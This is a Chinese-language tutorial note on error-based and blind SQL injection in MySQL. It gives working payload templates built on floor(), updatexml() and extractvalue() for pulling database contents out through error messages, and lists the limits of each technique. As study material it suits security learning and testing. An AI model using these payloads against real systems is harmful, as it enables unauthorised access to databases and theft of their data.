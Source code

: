 ## 盲注总结

1. ==可以使用回显、报错、bool注入的地方都可以使用时间盲注，反之则不一定==

2. ==可以发生回显报错的地方一定可以bool型盲注，反之不一定==

## 报错注入

报错注入常用场景:

找到注入点之后==不管提交任何参数,都只有显示或不显示内容两种情况,并且如果有SQL语句错误,可以看到数据库管理系统输出的错误,==则可以使用报错注入的方式进行注入

### floor()报错注入

双（查询）注入，又称floor报错注入，想要查询select database()，只需要输入后面语句即可在MySQL报错语句中查询出来：

```mysql
1、union select count(*), concat((payload), floor(rand()*2)) as a from information_schema.tables group by a
2、and (select 1 from (select count(*),concat((payload),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

count(*)是必须带上的。
限制：

1. 输出字符长度限制为32个字符,查询到的数据超长无法显示的,可以使用substr()函数截取之后分段显示
2. 后台返回记录列数至少2列

insert into t_xx (username,password) values (xxx,xxx) where username = 'Dhakkan'

报错注入需要满足的条件:

1. 注入语句中查询用到的表内数据必须>=3条
2. floor()报错注入在MySQL版本8.0 已失效，经过测试7.3.4nts也已失效

### updatexml()报错注入

- **介绍：**`updatexml()`是一个使用不同的xml标记匹配和替换xml块的函数。
- **作用：**改变文档中符合条件的节点的值
- **语法：**`updatexml(XML_document，XPath_string，new_value)` 第一个参数：是`string`格式，为XML文档对象的名称，文中为Doc ;第二个参数：代表`路径`，Xpath格式的字符串例如//title【@lang】; 第三个参数：`string`格式，替换查找到的符合条件的数据
- **原理：**`updatexml`使用时，当`xpath_string`格式出现错误，`mysql`则会爆出xpath语法错误（`xpath syntax`）
- **例如：** `select * from test where id=1 and (updatexml(1,0x7e,3));` 由于`0x7e`是`~`，不属于xpath语法格式，因此报出xpath语法错误。
- **payload：**`select * from test where id=1 and (updatexml(1,concat(0x7e,payload),3));`

限制：

1. 输出字符长度限制为32个字符
2. 仅payload返回的不是xml格式，才会生效

### ExtractValue()报错注入

- **介绍：**此函数从目标XML中返回包含所查询值的字符串
- **语法：**`extractvalue(XML_document，xpath_string)` 第一个参数：`string`格式，为XML文档对象的名称，第二个参数：`xpath_string`（xpath格式的字符串） `select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));`
- **作用：**`extractvalue`使用时当`xpath_string`格式出现错误，mysql则会爆出xpath语法错误（`xpath syntax`）
- **例如：**`select user,password from users where user_id=1 and (extractvalue(1,0x7e));`
- **原理：**由于`0x7e`就是`~`不属于xpath语法格式，因此报出xpath语法错误。
